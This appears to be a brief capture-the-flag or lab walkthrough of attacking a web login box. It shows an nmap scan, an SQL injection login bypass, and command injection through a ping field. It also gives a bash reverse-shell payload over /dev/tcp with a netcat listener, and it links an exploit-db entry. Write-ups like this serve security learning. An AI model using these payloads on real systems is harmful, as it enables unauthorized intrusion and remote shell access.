


Steps:

Run namp for port scanning:

```bash
nmap -sC -sV <ip> -oN nmap
```



## http

* There is a login page in place 

 Checking for sql injection
 ```
 ' or 1=1 --
 ```

 It worked we see a text box to send in ip's for ping command.

 My first though it that the input is directly appended to ping command, 

 ```
 command = "ping" . $text_input
 ```

 Verifying the hypothesis
 ```
 <ip>; id
 ```


### Payload:
```
192.168.126.129; bash -i >& /dev/tcp/192.168.126.129/9090 0>&1
```

### Listner:
```
nc -nvlp 9090
```
 We have a shell!!! (apache)

Check the version and after some googling I found a exploit
```
https://www.exploit-db.com/exploits/9542
```